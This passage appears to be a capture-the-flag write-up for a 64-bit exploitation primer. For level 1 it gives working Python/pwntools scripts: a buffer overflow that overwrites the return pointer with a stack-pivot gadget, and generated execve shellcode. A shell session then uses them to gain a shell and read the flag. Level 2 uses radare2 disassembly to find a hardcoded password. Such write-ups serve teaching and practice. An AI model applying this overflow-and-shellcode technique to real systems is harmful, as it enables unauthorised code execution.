 ```
0x000000000040069d :  pop rsp; pop r13; pop r14; pop r15; ret;
```

Since NX was disabled, the stack was executable, and so if I stored my shellcode in the third argument, I could execute it. Easiest way to do it was to create two scripts. The first would create "in.txt", which would overwrite the saved return pointer and return to the series of pop gadgets, and the second script would create "shellcode.txt", which just contained an execve() shellcode.

Here's the first script to overwrite RIP:

```
#!/usr/bin/env python

from pwn import *

buf = ""
buf += "A"*72
buf += p64(0x000000000040069d)  # pop rsp; pop r13; pop r14; pop r15; ret;

open("in.txt", "w").write(buf)
```

And the second script to write out the execve() shellcode:

```
#!/usr/bin/env python
from pwn import *

context(os="linux", arch="amd64")
open("shellcode.txt", "w").write(asm(shellcraft.linux.sh()))
```

Copy both in.txt and shellcode.txt to the target and pass them as the first and third arguments to the chall1 binary to get a shell:

```
n00b@64bitprimer:~/level1$ ./chall1 `cat /tmp/level1/in.txt` xxxx `cat /tmp/level1/shellcode.txt`
Bet ya can't pwn me!
#n00b
$ cat flag*
flag{s33_64bit_1snt_4s_h4rd_4s_y0u_th0ught}
```

## Level 2

This was easy. I loaded up the binary in radare2 and examined the disassembly of the checkPassword function:

```
[0x00400600]> pdf@sym.checkPassword
╒ (fcn) sym.checkPassword 57
│           ; var int local_8h @ rbp-0x8
│           ; CALL XREF from 0x00400859 (sym.main)
│           0x004007db      55             push rbp
│           0x004007dc      4889e5         mov rbp, rsp
│           0x004007df      4883ec10       sub rsp, 0x10
│           0x004007e3      48897df8       mov qword [rbp - local_8h], rdi
│           0x004007e7      488b45f8       mov rax, qword [rbp - local_8h]
│           0x004007eb      be04094000     mov esi, str.sup3rs3cr3tp4ssw0rd ; "sup3rs3cr3tp4ssw0rd" @ 0x400904
│           0x004007f0      4889c7         mov rdi, rax
│           0x004007f3      e8d8fdffff     call sym.imp.strcmp
│           0x004007f8      85c0           test eax, eax
│       ┌─< 0x004007fa      750c           jne 0x400808
│       │   0x004007fc      b800000000     mov eax, 0
│       │   0x00400801      e8e7feffff     call sym.doDec
│      ┌──< 0x00400806      eb0a           jmp 0x400812
│      ││   ; JMP XREF from 0x004007fa (sym.checkPassword)
```